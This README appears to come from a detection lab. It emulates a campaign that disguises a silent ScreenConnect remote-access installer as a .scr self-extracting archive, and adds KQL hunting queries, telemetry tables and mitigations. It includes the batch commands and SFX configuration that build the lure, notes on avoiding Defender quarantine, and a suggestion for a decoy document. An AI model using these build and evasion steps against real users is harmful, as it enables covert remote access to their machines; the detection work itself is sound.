

# How do I use this?
Go to https://dataexplorer.azure.com, then create a free ADX cluster account and a new database. Copy the [init.kql](https://github.com/ksyeung/DetLabs/blob/main/python_pth_persistence/init.kql) data in this folder and paste it into the ADX web UI query window. This will create the required tables, ASIM parsers, helper functions, and start ingestion of the telemetry (WindowsEvent[...].parquet, etc).

### Abusing Screensaver File Extensions for RMM-Based Persistence
This is an unsophisticated emulation of a campaign documented by ReliaQuest, [New Campaign Uses Screensavers for RMM-Based Persistence](https://reliaquest.com/blog/threat-spotlight-new-campaign-uses-screensavers-RMM-based-persistence). Instead of using GoFile and SimpleHelp, it uses LimeWire.com and ScreenConnect. You can skip to [the attack analysis](#the-attack) section if you're not interested in the details around prep for initial access.

---

### Attack Preparation
Pre-requisites:
- Download the 7z LZMA SDK from https://7-zip.org/sdk.html
- Download a ScreenConnect client installer (MSI). If you're not a current customer, you may be able to obtain a free seven day trial. Note that they won't permit registration by addresses from a domain used by free email services (such as Gmail, Yahoo, Yandex, etc) owing to widespread abuse by threat actors.
Then:
- Write a batch file to create a self-extracting archive with 7z using LZMA at max compression that embeds the MSI. The archive will have a `.scr` file extension


Now, let's take a quick look at the first line of the batch script `cr.bat`:
```
7zr.exe a archive.7z ScreenConnect.ClientSetup.msi install.cmd -mx
```

 This creates a 7-Zip LZMA Ultra (`-mx`) compressed self-extracting archive that embeds ScreenConnect Client and a batch script `install.cmd`. More on that batch script later.

The next line of `cr.bat` reads:
```
copy /b 7zSD.sfx + config.txt + archive.7z finance.scr
```

This concatenates the SFX stub, the 7-Zip SFX configuration directive that tells the stub what to execute after extraction, and ScreenConnect MSI into a single executable with a `.scr` extension.

`config.txt` reads:
```
;!@Install@!UTF-8!
Title="ScreenConnect Client Setup"
RunProgram="install.cmd"
;!@InstallEnd@!
```

`install.cmd` contains this:
```
@echo off
msiexec /i "%~dp0ScreenConnect.ClientSetup.msi" /qn /norestart
```

Note that `%~dp0` expands to the drive letter and path of the batch script,
`~d` extracts the drive letter e.g. `C:`
`~p` extracts the path, e.g. `\Users\domainuser\AppData\Local\Temp\7z1234\`
`%0` is the batch file name

This resolves to something like `C:\Users\domainuser\AppData\Local\Temp\7z1234\` and ensures msiexec finds the MSI in the same dir as `install.cmd`. The arguments ensure installation is silent and no restart is required.

### The attack
The telemetry was collected during execution of `2026-02-11-inv.scr` (`version one`) and `finance.scr` (`version two`). These are two different versions of the same attack: the former is described above and has the drawback of briefly launching `cmd.exe`, and the latter adds an additional execution with VBScript (the 7-Zip SFX stub runs `silent.vbs` which subsequently runs `install.cmd` while hiding the `cmd.exe` window). The second version will pop a dialog, "The publisher could not be verified. Are you sure you want to run this software?" Note that `wmic` was used to uninstall ScreenConnect between executions.

Here's a short Mermaid diagram for clarity:


1. The victim visited `limewire.com`. In our case, this wasn't visible in the logs.
2. They downloaded both files. We can see this with the following query:
```kql
_ASim_FileEvent
| where TargetFileName endswith ".scr"
| project 
    EventStartTime, DvcHostname, ActorWindowsUsername, ActingProcessName, TargetFilePath, TargetFileSHA1, FileOriginReferrerUrl, FileOriginUrl
```
The output:

|EventStartTime|DvcHostname|ActorWindowsUsername|ActingProcessName|TargetFilePath|TargetFileSHA1|FileOriginReferrerUrl|FileOriginUrl|
|---|---|---|---|---|---|---|---|
|2026-02-12T18:17:55.6581549Z|jd-win11-22h2-1|JD-WIN11-22H2-1\localuser|c:\program files\google\chrome\application\chrome.exe|C:\Users\localuser\Downloads\2026-02-11-inv.scr\2026-02-11-inv.scr|178fa411d7c75c702d66eb4125912f6e7f6539cf|||
|2026-02-12T18:17:57.3132174Z|jd-win11-22h2-1|JD-WIN11-22H2-1\localuser|c:\program files\google\chrome\application\chrome.exe|C:\Users\localuser\Downloads\finance.scr\finance.scr|bb3497e4f51745a17c2184ba14e95236640e7f8b|||
|2026-02-12T18:18:05.4076425Z|jd-win11-22h2-1|JD-WIN11-22H2-1\localuser|c:\program files\google\chrome\application\chrome.exe|C:\Users\localuser\Downloads\2026-02-11-inv.scr\2026-02-11-inv.scr|178fa411d7c75c702d66eb4125912f6e7f6539cf|https://limewire.com/d/4J69s|https://limewire.com/decrypt/download?downloadId=0c2818b3-4c07-47aa-b9d4-fb67a0e05ede|
|2026-02-12T18:18:07.1440545Z|jd-win11-22h2-1|JD-WIN11-22H2-1\localuser|c:\program files\google\chrome\application\chrome.exe|C:\Users\localuser\Downloads\finance.scr\finance.scr|bb3497e4f51745a17c2184ba14e95236640e7f8b|https://limewire.com/d/4J69s|https://limewire.com/decrypt/download?downloadId=8c72ea29-b9c7-48c8-a025-7c481676f6cb|
3. The victim launched both files in succession. Let's get a full look using a query that builds a four-generation process tree rooted at `.scr` file execution:

```kql
let scr_events = 
    _ASim_ProcessEvent
    | where ActingProcessName endswith ".scr" or TargetProcessName endswith ".scr"
    | project
        Timestamp, Dvc, ActorUsername, TargetProcessName, TargetProcessId, TargetProcessCommandLine, ActingProcessName, ActingProcessCommandLine, ActingProcessId, ParentProcessName;
let scr_pids = 
    scr_events
    | where TargetProcessName endswith ".scr"
    | distinct TargetProcessId, Dvc;
let children = 
    _ASim_ProcessEvent
    | join kind=inner scr_pids on $left.ActingProcessId == $right.TargetProcessId, Dvc
    | project
        Timestamp, Dvc, ActorUsername, TargetProcessName, TargetProcessId, TargetProcessCommandLine, ActingProcessName, ActingProcessCommandLine, ActingProcessId, ParentProcessName;
let child_pids = 
    children
    | distinct TargetProcessId, Dvc;
let grandchildren = 
    _ASim_ProcessEvent
    | join kind=inner child_pids on $left.ActingProcessId == $right.TargetProcessId, Dvc
    | project
        Timestamp, Dvc, ActorUsername, TargetProcessName, TargetProcessId, TargetProcessCommandLine, ActingProcessName, ActingProcessCommandLine, ActingProcessId, ParentProcessName;
let grandchild_pids = 
    grandchildren
    | distinct TargetProcessId, Dvc;
let great_grandchildren = 
    _ASim_ProcessEvent
    | join kind=inner grandchild_pids on $left.ActingProcessId == $right.TargetProcessId, Dvc
    | project
        Timestamp, Dvc, ActorUsername, TargetProcessName, TargetProcessId, TargetProcessCommandLine, ActingProcessName, ActingProcessCommandLine, ActingProcessId, ParentProcessName;
union scr_events, children, grandchildren, great_grandchildren
| sort by Dvc, Timestamp asc
```
Output:


| Timestamp                    | Dvc             | ActorUsername             | TargetProcessName                               | TargetProcessId | TargetProcessCommandLine                                                                                    | ActingProcessName                               | ActingProcessCommandLine                                                        | ActingProcessId | ParentProcessName  |
| ---------------------------- | --------------- | ------------------------- | ----------------------------------------------- | --------------- | ----------------------------------------------------------------------------------------------------------- | ----------------------------------------------- | ------------------------------------------------------------------------------- | --------------- | ------------------ |
| 2026-02-12T18:18:06.5721120Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Users\localuser\Downloads\2026-02-11-inv.scr | 6808            | "2026-02-11-inv.scr" /S                                                                                     | c:\windows\explorer.exe                         | Explorer.EXE                                                                    | 10524           | userinit.exe       |
| 2026-02-12T18:18:07.5887521Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\SysWOW64\cmd.exe                     | 3460            | cmd.exe /c .\install.cmd /S                                                                                 | c:\users\localuser\downloads\2026-02-11-inv.scr | "2026-02-11-inv.scr" /S                                                         | 6808            | explorer.exe       |
| 2026-02-12T18:18:07.5904378Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\System32\conhost.exe                 | 7032            | conhost.exe 0xffffffff -ForceV1                                                                             | c:\windows\syswow64\cmd.exe                     | cmd.exe /c .\install.cmd /S                                                     | 3460            | 2026-02-11-inv.scr |
| 2026-02-12T18:18:08.5893035Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\SysWOW64\msiexec.exe                 | 9192            | msiexec /i "C:\Users\LOCALU~1\AppData\Local\Temp\7zS89A9EA62\ScreenConnect.ClientSetup.msi" /qn /norestart  | c:\windows\syswow64\cmd.exe                     | cmd.exe /c .\install.cmd /S                                                     | 3460            | 2026-02-11-inv.scr |
| 2026-02-12T18:19:19.0768427Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Users\localuser\Downloads\finance.scr        | 14224           | "finance.scr" /S                                                                                            | c:\windows\explorer.exe                         | Explorer.EXE                                                                    | 10524           | userinit.exe       |
| 2026-02-12T18:19:20.1134763Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\SysWOW64\wscript.exe                 | 12656           | "WScript.exe" "C:\Users\localuser\AppData\Local\Temp\7zS09757C93\silent.vbs" /S                             | c:\users\localuser\downloads\finance.scr        | "finance.scr" /S                                                                | 14224           | explorer.exe       |
| 2026-02-12T18:19:21.0863668Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\SysWOW64\cmd.exe                     | 10316           | cmd.exe /c ""C:\Users\localuser\AppData\Local\Temp\7zS09757C93\install.cmd" "                               | c:\windows\syswow64\wscript.exe                 | "WScript.exe" "C:\Users\localuser\AppData\Local\Temp\7zS09757C93\silent.vbs" /S | 12656           | finance.scr        |
| 2026-02-12T18:19:21.0871816Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\System32\conhost.exe                 | 712             | conhost.exe 0xffffffff -ForceV1                                                                             | c:\windows\syswow64\cmd.exe                     | cmd.exe /c ""C:\Users\localuser\AppData\Local\Temp\7zS09757C93\install.cmd" "   | 10316           | wscript.exe        |
| 2026-02-12T18:19:21.0896140Z | jd-win11-22h2-1 | jd-win11-22h2-1\localuser | C:\Windows\SysWOW64\msiexec.exe                 | 396             | msiexec /i "C:\Users\localuser\AppData\Local\Temp\7zS09757C93\ScreenConnect.ClientSetup.msi" /qn /norestart | c:\windows\syswow64\cmd.exe                     | cmd.exe /c ""C:\Users\localuser\AppData\Local\Temp\7zS09757C93\install.cmd" "   | 10316           | wscript.exe        |


We can confirm successful client installation, with a query such as:
```
_ASim_RegistryEvent
| where RegistryValueData has_any ("ScreenConnect", "ConnectWise")
| project 
    Timestamp, DvcHostname, RegistryKey, RegistryValue, RegistryValueData, ActingProcessName
```

Output (truncated for brevity):

|Timestamp|DvcHostname|RegistryKey|RegistryValue|RegistryValueData|ActingProcessName|
|---|---|---|---|---|---|
|2026-02-12T18:18:09.9758537Z|jd-win11-22h2-1.ludus.domain|HKEY_LOCAL_MACHINE\SOFTWARE\Classes\sc-207d3896f8faaf5e\shell\open\command||"C:\Program Files (x86)\ScreenConnect Client (207d3896f8faaf5e)\ScreenConnect.WindowsClient.exe" "%1"|c:\windows\system32\msiexec.exe|
|2026-02-12T18:18:09.9813717Z|jd-win11-22h2-1.ludus.domain|HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa|Authentication Packages|msv1_0 C:\Program Files (x86)\ScreenConnect Client (207d3896f8faaf5e)\ScreenConnect.WindowsAuthenticationPackage.dll|c:\windows\system32\msiexec.exe|
|2026-02-12T18:18:09.9857778Z|jd-win11-22h2-1.ludus.domain|HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\ScreenConnect Client (207d3896f8faaf5e)|ImagePath|"C:\Program Files (x86)\ScreenConnect Client (207d3896f8faaf5e)\ScreenConnect.ClientService.exe" "?e=Access&y=Guest&h=instance-h69zsa-relay.screenconnect.com&p=443&s=bb5acd95-83d0-4980-8505-c3f8bd326f7d&k=BgIAAACkAABSU0Ex..."|c:\windows\system32\services.exe|
|2026-02-12T18:18:12.7688031Z|jd-win11-22h2-1.ludus.domain|HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\ScreenConnect Client (207d3896f8faaf5e)|ImagePath|"C:\Program Files (x86)\ScreenConnect Client (207d3896f8faaf5e)\ScreenConnect.ClientService.exe" "?e=Access&y=Guest&h=instance-h69zsa-relay.screenconnect.com&p=443&s=bb5acd95-83d0-4980-8505-c3f8bd326f7d&k=BgIAAACkAABSU0Ex...&v=AQAAANCMnd8BFdER..."|c:\program files (x86)\screenconnect client (207d3896f8faaf5e)\screenconnect.clientservice.exe|

These events indicate:
1. Custom URI protocol registration of the scheme `sc-207d3896f8faaf5e://`. Any URL using this scheme will launch ScreenConnect with it as an argument, enabling one-click session joining.
2. Custom LSA Authentication Package registration so that ScreenConnect's DLL is loaded into `lsass.exe`, which it can use for its session management.
3. A Windows service is created for the client and embeds a relay server/port, session GUID, and RSA public key for auth. The service launches on boot.
4. The service rewrites its own `ImagePath` to store encrypted session state (creds, session tokens). This confirms the service started successfully.
### Detection
A generic RMM monitoring query would work, such as the one on https://lolrmm.io. I'll update this section later after I've had a chance to baseline legitimate `.scr` file executions.

### Mitigations
See the ReliaQuest article linked above. Really, the entire article is worth reading! It has suggestions such as:
- Block or restrict execution from user-writable locations (Downloads, Desktop, and Temp). Use robust application control solutions (e.g., Windows Defender Application Control, AppLocker, or equivalent) to allow execution only from trusted, signed, or explicitly approved locations.
- Maintain an approved-RMM allowlist (vendor/product, signing certificate, hashes where feasible). Alert on unapproved RMM agent installation signals, including new services, scheduled tasks, and unexpected ProgramData directories, created after user-initiated execution.
- Block non-business file-hosting services at the DNS or web proxy layer. Where access is required, enforce browser isolation and download policies that restrict executable content (.scr, .exe, .msi) and archives likely to contain them.
### Other notes
- You need admin privileges to install ScreenConnect Client.
- I initially tried this with WinRAR and IExpress (which ships with Windows). The resulting SFX files are quarantined immediately by Defender AV regardless of compression level.
- I also tried creating an SFX with `7za.exe` (the standalone, portable full version of the 7-Zip command-line tool). According to [documentation](https://documentation.help/7-Zip/method.htm), it uses LZMA Normal (`-mx5`) by default if no parameters are specified. The resulting archive was quarantined by Defender AV. If I specified a `.exe` extension in the command to create an archive and renamed it afterwards, Windows displays a warning dialog indicating the original filename upon execution.
- This attack uses `7zr.exe`, which supports fewer file formats. It specifies `-mx`, which defaults to LZMA Ultra (`-mx9`). There's no particular reason why you'd need to use `7zr.exe` over `7za.exe`: the latter supports more formats and doesn't require any DLLs (note that `7z.exe` does need `7z.dll`).
- I think you could also embed a document so that it launches while the RMM installation runs in the background, which would be more deceptive than the current implementation. I leave this as an exercise for the curious reader.
